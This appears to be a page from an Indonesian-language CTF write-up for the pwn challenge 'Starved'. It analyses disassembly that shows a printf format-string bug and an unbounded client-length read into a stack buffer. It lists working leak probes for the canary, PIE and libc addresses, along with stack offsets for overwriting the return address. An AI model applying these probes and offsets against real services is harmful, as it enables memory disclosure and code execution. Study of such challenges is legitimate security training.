



# Starved — Analisis

[← Overview](40-starved.md) · [Index](index.md)

## 2.1 `leaker()` — format string

```asm
0dea: leaker:
0dee: sub rsp, 0xb0
0df5: mov rax, fs:0x28
0dfe: mov [rbp-0x8], rax          # canary
0e04: lea rax, [rip+0x1cb]        # "nick> "
0e13: call printf
0e18: mov rax, [stdout]
0e22: call fflush
0e27: mov rdx, [stdin]
0e2e: lea rax, [rbp-0xb0]         # buffer 0xb0
0e35: mov esi, 0xa0               # fgets size 0xa0 -> aman
0e3d: call fgets
...
0e68: lea rax, [rip+0x170]        # "hello, "
0e77: call printf
0e7c: lea rax, [rbp-0xb0]
0e8b: call printf                 # printf(nickname) <-- format string
```

Karena `fgets` hanya 0xa0 ke buffer 0xb0, tidak ada overflow di sini; yang bisa dieksploitasi adalah format string. Indeks yang diverifikasi (lihat `assets/starved/03b-leak-probe.txt`):

```text
%27$p = halo, 0xba822f067bfa6300     # stack canary
%29$p = halo, 0x7f59e2fb8f1d        # return ke main (PIE+0xf1d)
%85$p = halo, 0x75d5eb229d90        # return main -> libc (libc+0x29d90)
```

## 2.2 `main()` — panjang dari klien

```asm
0ecc: main:
0ed0: sub rsp, 0x1b0
0ed7: mov rax, fs:0x28
0ee0: mov [rbp-0x8], rax             # canary
0efc: call setvbuf
0f04: call setup_seccomp
0f09: puts("Relay v1")
0f18: call leaker
0f1d: lea rax, [rbp-0x1a8]
0f24: mov edx, 8
0f2c: mov edi, 0
0f31: call read                      # baca 8 byte: len + magic
0f36: lea rax, [rbp-0x1a8]
0f3d: mov eax, [rax]                 # len (u32)
0f3f: mov [rbp-0x1b0], eax
0f45: mov eax, [rbp-0x1a4]           # magic
0f4b: mov [rbp-0x1ac], eax
0f51: cmp DWORD PTR [rbp-0x1ac], 0xdead
0f5b: je 0f73
0f5d: puts("bad flags")
0f6c: mov eax, 0
0f71: jmp 0f92
0f73: mov edx, [rbp-0x1b0]           # len dari klien (tanpa batas)
0f79: lea rax, [rbp-0x1a0]           # buffer 0x1a0
0f80: mov rsi, rax
0f83: mov edi, 0
0f88: call read                      # read(0, rbp-0x1a0, len)
```

Layout:

```text
buf           rbp-0x1a0
canary        rbp-0x08   -> offset 0x198 (408)
saved rbp     rbp         -> 0x1a0
saved rip     rbp+0x08    -> 0x1a8
```

### Evidence langkah ini



*Terminal evidence — `02-disasm.txt` (arsip transkrip sesi solve).*



*Terminal evidence — `02b-seccomp.txt` (arsip transkrip sesi solve).*



*Terminal evidence — `02c-records.txt` (arsip transkrip sesi solve).*
